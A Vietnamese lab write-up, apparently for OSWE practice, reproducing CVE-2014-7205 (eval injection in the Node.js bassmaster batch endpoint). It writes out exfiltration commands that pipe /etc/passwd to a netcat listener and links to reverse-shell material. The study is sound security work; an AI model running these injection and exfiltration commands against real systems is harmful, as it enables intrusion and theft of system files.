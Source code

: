 ```yaml
---
title: Bassmaster_nodejs_CVE-2014-7205
date: 2019-09-06T06:13:10.000+00:00
tags: cve, oswe, bassmaster

---
```

Đây là một cve mình thực hiện reproduce để tập luyện cho OSWE chứ Bassmaster cũng đã không còn được hỗ trợ :
[https://www.npmjs.com/package/bassmaster](https://www.npmjs.com/package/bassmaster)
và cve này cũng đã có từ 2014.

[https://www.cvedetails.com/cve/CVE-2014-7205/](https://www.cvedetails.com/cve/CVE-2014-7205/)

Bassmaster là một thư viện nodejs hỗ trợ việc thực hiện nhiều requests tới web server (cụ thể là hapi) bằng 1 request duy nhất (POST tới /batch endpoint của thư viện tạo ra). Ex:

    POST /batch
    { "requests": [
        {"method": "get", "path": "/users/1"},
        {"method": "get", "path": "/users/2"}
    ] }

## 1. Thực hiện setup môi trường exploit

Do patch bassmaster bị exploit <= 1.51 nên bạn lưu ý là cần tải đúng
version. Trên release ở github của bassmaster thì có patch 1.21 là gần
nhất 1.51 nên mình sẽ lựa chọn nó

[https://github.com/outmoded/bassmaster/releases?after=v1.9.0](https://github.com/outmoded/bassmaster/releases?after=v1.9.0)

Để cho nhanh gọn ta dùng luôn code server mẫu **batch.js** trong thư mục
**examples/** của source code. Để tránh xung đột package thì nên copy
thư mục này ra riêng và thực hiện cài đặt 2 package cần thiết thôi:

    npm install bassmaster@1.5.1
    npm install hapi@10.0.0

Sau khi cài đặt xong sẽ có được file **package.json** hơi sương sương
giống này :v:

![](/image/bassmaster/package.png)

Tiếp theo cần phải edit lại **batch.js** phần **http.register** sẽ
require **_batchmasster_** (phần này sẽ bảo hapi load plugin bassmaster
cho chúng ta)

![](/image/bassmaster/edit_batch.png)

Giờ để chạy server:

    node batch.js

Test lại:

![image](/image/bassmaster/firefox_test.png)

Ok ! Như thế ta đã có môi trường để chọc phá rồi 😁

## 2. Tiến hành phân tích code và exploit

Ta sẽ phân tích source code và debug để thực hiện exploit. Để làm như
thế ta sẽ phân tích source trong **node_modules/bassmaster/** của thưc
mục example ta chạy demo.

Trước hết chạy POST request /batch để xem behavior của web server trả về
(payload mẫu trong source code :v )

![image](/image/bassmaster/post_batch_1.png)

Ta có thể thấy payload có 3 request và response trả về sẽ có 3 kết quả
tương ứng. Vậy ta đã hiểu cơ bản của plugin này.

Nhìn vào source của **bassmaster** ta có thể thấy chỉ có file
**lib/batch.js** là cần quan tâm (may quá code của library này ít
╰(_°▽°_)╯).

Review qua ta có thể thấy được function cho **internals.batch** (feature
chính handle **/batch** ) mà ta quan tâm.

![](/image/bassmaster/batch_1.png)

Nhìn xuống source code ta thấy hàm **_eval()_** . Wow!, thực sự quá vui
khi thấy hàm này do hàm **_eval()_** rất dễ và đã bị khai thác nhiều
trong nhiều ứng dụng nodejs: [eval-and-hackers
dream](https://www.c-sharpcorner.com/article/eval-and-hackers-dream-in-javascript/)

![](/image/bassmaster/batch_debug_1.png)

Vì lý do trên ta sẽ thử khai thác eval(), trước hết do eval() nằm trong
điều kiện **_if..else_** nên ta cần biết cách để kích hoạt function này.
Nếu bạn nào code giỏi chắc đọc vào là biết liền chứ mình hơi gà nên đành
debug thủ công 😢.

Câu lệnh **eval()** thực hiện câu lệnh có biến **_parts\[i\].value_** nên
ta sẽ xuất biến này ra để xem nó là gì. Đồng thời trong điều kiện
**_if..else_** thấy thêm 1 biến **path** có thể có giá trị cần quan tâm:

![](/image/bassmaster/batch_debug_2.png)

![](/image/bassmaster/batch_debug_3.png)

Thực hiện chạy lại code đã thay đổi và xem thông tin xuất ra:

![](/image/bassmaster/console_log_1.png)

Có thể thấy từ log trên, trong 3 request của payload thì chỉ có request
cuối là được thực hiện trong **eval()**

    { "method": "get", "path": "/item/$1.id"}

Từ định dạng của request trên và source code ta có thể hiểu được
**eval()** sẽ thực hiện các request path có các kí tự :

    var requestRegex = /(?:\/)(?:\$(\d)+\.)?([^\/\$]*)/g; 

Từ đó ta sẽ thực hiện inject code vào hàm eval() theo định dạng request
**$1.id**

Thử inject câu lệnh nc:

    nc 192.168.197.128 4000 (đang bật nc listen ở ip tương ứng)

![](/image/bassmastertest_nc.png)

Ta nhận được kết quả:

![](/image/bassmaster/kali.png)

Ok như vậy ta đã inject thành công. Thử câu lệnh

    cat /etc/passwd | nc 192.168.197.128 4000

Lưu ý các regex đặc biệt cần phải chuyển sang hex code, có thể dò ở đây:

[https://www.utf8-chartable.de/unicode-utf8-table.pl?unicodeinhtml=hex](https://www.utf8-chartable.de/unicode-utf8-table.pl?unicodeinhtml=hex)

![image](/image/bassmaster/exploit.png)

Ta được kết quả ở nc server:

![image](/image/bassmaster/kali_2.png)

Như thế ta đã exploit thành công bassmaster, nếu bạn muốn nhúng các
shell nodejs khác có thể tham khảo thêm:

[https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/](https://ibreak.software/2016/08/nodejs-rce-and-a-simple-reverse-shell/)

Bài viết kết thúc ở đây rồi ‘😜.Bạn có lấy file thực hiện tại link này:

[bassmaster_cve](/archive/bassmaster_cve.zip)

Thanks for reading !